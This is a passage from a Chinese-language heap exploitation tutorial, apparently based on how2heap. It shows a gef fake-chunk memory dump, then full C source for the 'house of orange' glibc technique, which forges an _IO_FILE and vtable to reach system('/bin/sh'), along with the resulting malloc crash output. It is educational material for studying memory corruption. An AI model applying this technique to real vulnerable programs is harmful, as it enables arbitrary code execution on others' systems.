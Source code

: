 最后当我们再次 malloc，其返回的地址将是 fake chunk 的地址：
```
gef➤  x/8gx &fake_chunk 
0x7fffffffdcb0:	0x0000000000000080	0x0000000000000021  <-- chunk d
0x7fffffffdcc0:	0x4141414141414141	0x4141414141414141
0x7fffffffdcd0:	0x00007fffffffdcb0	0xffff800000626331
0x7fffffffdce0:	0x00007fffffffddd0	0xbdf40e22ccf46c00
```

#### house_of_orange
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner (char *ptr);

int main() {
    char *p1, *p2;
    size_t io_list_all, *top;

    p1 = malloc(0x400 - 0x10);

    top = (size_t *) ((char *) p1 + 0x400 - 0x10);
    top[1] = 0xc01;

    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;

    memcpy((char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;

    _IO_FILE *fp = (_IO_FILE *) top;
    fp->_mode = 0; // top+0xc0
    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(_IO_FILE)) = (size_t) jump_table; // top+0xd8

    malloc(1);
    return 0;
}

int winner(char *ptr) {
    system(ptr);
    return 0;
}
```
```
$ gcc -g house_of_orange.c
$ ./a.out 
*** Error in `./a.out': malloc(): memory corruption: 0x00007f3daece3520 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f3dae9957e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x8213e)[0x7f3dae9a013e]
/lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f3dae9a2184]
./a.out[0x4006cc]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f3dae93e830]
./a.out[0x400509]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:01 919342                             /home/firmy/how2heap/a.out
```